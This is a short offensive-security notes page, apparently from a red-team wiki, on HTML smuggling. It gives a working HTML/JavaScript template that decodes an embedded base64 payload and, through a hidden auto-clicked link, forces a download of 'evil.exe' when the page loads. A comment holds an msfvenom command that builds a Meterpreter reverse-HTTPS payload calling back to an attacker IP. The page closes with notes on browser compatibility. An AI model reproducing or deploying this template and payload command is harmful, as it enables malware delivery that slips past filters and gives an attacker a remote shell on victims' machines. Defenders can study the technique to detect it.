 # HTML Smuggling

* [https://github.com/nccgroup/demiguise](https://github.com/nccgroup/demiguise)

1. Base64 code is placed into an array buffer, byte-by-byte.
2. The array buffer is placed into the binary blob.
3. A hidden `a` tag is created.
4. The data from the binary blob is moved to the href reference of the `a` tag.
5. The code from the binary blob is given the file name of `evil.exe`.
6. Finally, a click action is performed to download the file.

{% code title="smuggling.html" %}
```html
<html>
   <body>
      <script>
         function base64ToArrayBuffer(base64) {
             var binary_string = window.atob(base64);
             var len = binary_string.length;
             var bytes = new Uint8Array( len );
             for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
             return bytes.buffer;
         }
		 <!--
		 msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f exe -o evil.exe
		 base64 -w0 evil.exe | xclip -i -sel clipboard
		 -->
         var file ='<METERPRETER_BASE64_CONTENTS>'
         var data = base64ToArrayBuffer(file);
         var blob = new Blob([data], {type: 'octet/stream'});
         var fileName = 'evil.exe';
         var a = document.createElement('a');
         document.body.appendChild(a);
         a.style = 'display: none';
         var url = window.URL.createObjectURL(blob);
         a.href = url;
         a.download = fileName;
         a.click();
         window.URL.revokeObjectURL(url);
      </script>
   </body>
</html>
```
{% endcode %}

Note that this page will work when browsed with Google Chrome (since it supports `window.URL.createObjectURL`). This technique must be modified to work against browsers like IE or Microsoft Edge.
